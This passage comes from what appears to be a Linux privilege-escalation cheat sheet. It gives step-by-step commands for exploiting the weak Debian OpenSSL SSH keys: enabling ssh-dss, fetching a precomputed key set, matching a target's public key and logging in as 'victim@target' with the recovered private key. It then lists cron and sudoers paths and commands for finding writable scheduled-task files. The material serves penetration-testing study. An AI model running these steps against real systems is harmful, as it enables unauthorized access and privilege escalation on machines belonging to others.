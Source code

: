 ```
ssh-dss AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf ... (snipped) ... 
```

2. Since this is an ssh-dss key, we need to add that to our local copy of `/etc/ssh/ssh_config` and `/etc/ssh/sshd_config`:

```
echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/ssh_config
echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/sshs_config
/etc/init.d/ssh restart
```

3. Get [g0tmi1k's debian-ssh repository](https://github.com/g0tmi1k/debian-ssh) and unpack the keys:

```
git clone https://github.com/g0tmi1k/debian-ssh
cd debian-ssh
tar vjxf common_keys/debian_ssh_dsa_1024_x86.tar.bz2
```

4. Grab the first 20 or 30 bytes from the key file shown above starting with the `"AAAA..."` portion and grep the unpacked keys with it as:

```
grep -lr 'AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf'
dsa/1024/68b329da9893e34099c7d8ad5cb9c940-17934.pub
```

5. IF SUCCESSFUL, this will return a file (68b329da9893e34099c7d8ad5cb9c940-17934.pub) public file. To use the private key file to connect, drop the '.pub' extension and do:

```
ssh -vvv victim@target -i 68b329da9893e34099c7d8ad5cb9c940-17934
```

And you should connect without requiring a password. If stuck, the `-vvv` verbosity should provide enough details as to why.

## Scheduled tasks

### Cron jobs

Check if you have access with write permission on these files.   
Check inside the file, to find other paths with write permissions.   

```powershell
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/anacrontab
/var/spool/cron
/var/spool/cron/crontabs/root

crontab -l
ls -alh /var/spool/cron;
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
```